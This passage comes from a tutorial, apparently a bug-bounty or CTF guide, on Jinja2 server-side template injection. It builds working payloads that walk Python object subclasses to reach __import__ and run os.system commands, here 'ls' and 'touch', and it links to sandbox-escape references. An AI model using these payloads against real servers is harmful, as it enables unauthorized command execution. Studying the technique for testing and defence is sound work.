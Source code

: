 ```python
isinstance>, 'issubclass': <built-in function issubclass>, 'iter': <built-in function iter>, 
'len': <built-in function len>, 'locals': <built-in function locals>, 'max': <built-in function 
max>, 'min': <built-in function min>, 'next': <built-in function next>, 'oct': <built-in 
function oct>, 'ord': <built-in function ord>, 'pow': <built-in function pow>, 'print': 
<built-in function print>, 'repr': <built-in function repr>, 'round': <built-in function 
round>, 'setattr': <built-in function setattr>, 'sorted': <built-in function sorted>, 'sum': 
<built-in function sum>, 'vars': <built-in function vars>, 'None': None, 'Ellipsis': Ellipsis, 
'NotImplemented': NotImplemented, 'False': False, 'True': True, 'bool': <class 'bool'>, 
'memoryview': <class 'memoryview'>, 'bytearray': <class 'bytearray'>, 'bytes': <class 'bytes'>, 
'classmethod': <class 'classmethod'>, ...}
```

We now have a way to access the import functionality! Since the builtin classes and functions are stored in a Python dictionary, you can access
the **import** function by referring to the key of the function’s entry in the dictionary:

```python
{% for x in [].__class__.__bases__[0].__subclasses__() %}
{% if 'catch_warnings' in x.__name__ %}
{{x()._module.__builtins__['__import__']}}
{%endif%}
{%endfor%}
```

You can import a module with **import** by providing the name of that module as an argument. Here, let’s import the OS module so we can access the `system()` function:

```python
{% for x in [].__class__.__bases__[0].__subclasses__() %}
{% if 'catch_warnings' in x.__name__ %}
{{x()._module.__builtins__['__import__']('os').system('ls')}}
{%endif%}
{%endfor%}
```

This command lists the contents of the current directory. You’ve achieved command execution! Now, you should be able to execute arbitrary system commands with this template injection

# Submitting Payloads for Testing

Use the touch command to create a file with the specified name in the current directory:

```python
{% for x in [].__class__.__bases__[0].__subclasses__() %}
{% if 'warning' in x.__name__ %}
{{x()._module.__builtins__['__import__']('os').system('touch template_injection_by_slax
.txt')}}
{%endif%}
{%endfor%}
```

If you are interested in learning more about **sandbox escapes,** these articles discuss the topic in more detail  :

- CTF Wiki, [https://ctf-wiki.github.io/ctf-wiki/pwn/linux/sandbox/python-sandbox-escape/](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/sandbox/python-sandbox-escape/)
- HackTricks, [https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes/](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes/)
- Programmer Help, [https://programmer.help/blogs/python-sandbox-escape.html](https://programmer.help/blogs/python-sandbox-escape.html)
